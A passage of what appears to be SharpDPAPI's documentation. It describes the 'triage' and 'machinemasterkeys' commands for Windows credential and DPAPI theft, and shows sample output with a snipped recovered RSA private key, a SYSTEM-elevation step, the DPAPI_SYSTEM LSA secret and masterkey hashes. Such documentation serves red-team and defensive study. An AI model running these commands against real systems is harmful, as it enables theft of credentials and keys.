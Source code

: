  Hashlen: 160
 HMAC: e4fa2d8144af651a86de20efa5771d20

 [*] Private key file 824020b98d4a03d0d23392fb673067eb_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered

 [*] PKCS1 Private key

 -----BEGIN RSA PRIVATE KEY-----
 MIIEpAIBAAKCAQEAtt/LpUFCjeE2YBmwvhkAI2RfX...(snip)...
 -----END RSA PRIVATE KEY-----

 [*] Certificate

 -----BEGIN CERTIFICATE-----
 MIIC1jCCAb6gAwIBAgIQfSNOUmInprRC0lEVt7u...(snip)...
 -----END CERTIFICATE-----


#### triage

The **triage** command runs the user [credentials](#credentials), [vaults](#vaults), [rdg](#rdg), and [certificates](#certificates) commands.


### Machine Triage

#### machinemasterkeys

The **machinemasterkeys** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. It will return a set of masterkey {GUID}:SHA1 mappings.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

 C:\Temp>SharpDPAPI.exe machinemasterkeys

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: Machine DPAPI Masterkey File Triage

 [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
 [*] RevertToSelf()

 [*] Secret : DPAPI_SYSTEM
 [*] full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
 [*] m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3


 [*] SYSTEM master key cache:

 {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
 ...(snip)...
